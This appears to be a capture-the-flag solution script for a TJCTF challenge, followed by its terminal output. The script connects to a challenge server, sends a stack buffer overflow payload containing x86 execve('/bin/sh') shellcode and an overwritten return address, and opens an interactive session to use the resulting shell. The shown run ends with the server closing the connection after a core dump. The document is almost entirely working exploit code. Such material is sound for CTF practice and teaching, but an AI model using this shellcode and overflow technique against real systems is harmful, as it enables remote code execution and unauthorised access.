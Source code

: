 ```python:solve001.py
import socket
import telnetlib
import sys
import struct

def read_until(sock, s):
    line = b""
    while line.find(s) < 0:
        line += sock.recv(1)
    return line


host = "p1.tjctf.org"
port = 8010

target_addr = int(0xffffd430)
print("%x" % (target_addr))
target_addr = struct.pack("<L", target_addr)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
print(host)
print(port)
sock.connect((host, port))

ret = read_until(sock, b"Which product would you like?\n")
print(ret)

shellcode_sh = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sock.sendall(b"A" * 20 + shellcode_sh + b"B" * 35 + b"\x30\xd4\xff\xff\n")

t = telnetlib.Telnet()
t.sock = sock
t.interact()
```

```bash-statement
$ python solve001.py
ffffd430
p1.tjctf.org
8010
b'The following products are available:\n|  Saucer  | $1 |\n| Kicksled | $2 |\n| Airboard | $3 |\n| Toboggan | $4 |\nWhich product would you like?\n'
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
$
```

